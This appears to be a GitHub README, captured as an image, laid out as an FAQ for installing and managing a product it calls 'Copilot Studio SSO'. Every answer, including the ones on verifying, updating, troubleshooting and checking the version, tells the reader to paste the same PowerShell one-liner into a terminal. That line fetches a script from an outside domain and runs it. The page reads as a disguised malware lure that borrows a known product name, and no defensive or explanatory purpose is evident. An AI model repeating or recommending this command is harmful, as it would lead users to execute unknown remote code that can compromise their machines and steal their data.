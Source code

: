 ### **3. How do I install Copilot Studio SSO on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install Copilot Studio SSO using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that Copilot Studio SSO is installed?**  
After running the installation command, your system will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If Copilot Studio SSO is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update Copilot Studio SSO?**  
To update SSO, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall Copilot Studio SSO?**  
To uninstall, remove Copilot Studio SSO from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install Copilot Studio SSO without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of Copilot Studio SSO?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
